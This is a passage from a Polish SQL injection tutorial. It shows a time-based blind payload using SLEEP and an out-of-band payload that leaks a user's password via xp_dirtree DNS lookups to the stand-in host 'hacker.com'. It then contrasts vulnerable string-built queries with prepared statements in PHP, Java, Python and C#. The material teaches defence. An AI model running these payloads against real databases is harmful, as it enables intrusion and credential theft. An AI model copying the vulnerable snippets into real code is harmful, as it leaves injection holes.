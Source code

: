 #### **Time-based**
```sql
-- Test z opóźnieniem (MySQL)
' AND IF((SELECT COUNT(*) FROM users)>10, SLEEP(5), 0) --

-- Jeśli strona ładuje się 5 sekund → więcej niż 10 użytkowników
```

### 3. **Out-of-band SQL Injection**
Wykorzystuje alternatywne kanały komunikacji (DNS, HTTP).

```sql
-- Przykład z wykorzystaniem DNS (SQL Server)
'; EXEC xp_dirtree '\\' + (SELECT password FROM users WHERE id=1) + '.hacker.com\share'; --
```

## Metody ochrony

### 1. **Parametrized Queries / Prepared Statements** (NAJLEPSZE)

#### PHP PDO:
```php
// ❌ PODATNE
$query = "SELECT * FROM users WHERE username = '$username'";

// ✅ BEZPIECZNE  
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

#### Java JDBC:
```java
// ❌ PODATNE
String query = "SELECT * FROM users WHERE id = " + userId;

// ✅ BEZPIECZNE
String query = "SELECT * FROM users WHERE id = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setInt(1, userId);
```

#### Python:
```python
# ❌ PODATNE
cursor.execute(f"SELECT * FROM users WHERE name = '{username}'")

# ✅ BEZPIECZNE
cursor.execute("SELECT * FROM users WHERE name = %s", (username,))
```

#### C# .NET:
```csharp
// ❌ PODATNE
string query = $"SELECT * FROM users WHERE id = {userId}";

// ✅ BEZPIECZNE
string query = "SELECT * FROM users WHERE id = @userId";
SqlCommand cmd = new SqlCommand(query, connection);
cmd.Parameters.AddWithValue("@userId", userId);
```
